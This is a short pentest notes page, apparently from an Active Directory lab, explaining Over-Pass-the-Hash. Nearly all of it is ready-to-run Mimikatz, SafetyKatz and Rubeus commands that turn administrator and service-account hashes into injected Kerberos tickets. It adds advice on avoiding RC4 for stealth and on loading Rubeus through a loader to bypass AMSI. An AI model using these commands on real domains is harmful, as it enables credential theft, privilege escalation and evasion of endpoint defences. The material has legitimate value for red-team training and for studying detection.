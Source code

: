 # Over Pass The Hash

Over pass the hash (OPTH) is used between domain joined and not passing directly the NTLM hash to authenticate, instead asking for TGT.

{% hint style="warning" %}
Always try to avoid RC4 as it is not opsec friendly. Use AES256 where it is possible.
{% endhint %}

{% code fullWidth="false" %}
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

# Need Admin Privilege for OPTH
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys>  /run:cmd.exe" "exit"

#OPTH without Admin Privilege. Current session will be replaced
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt

# Need Admin Privilege
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

It's always safe way to load Rubeus through the Loader to bypass ASMI. Run with admin cmd.

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}
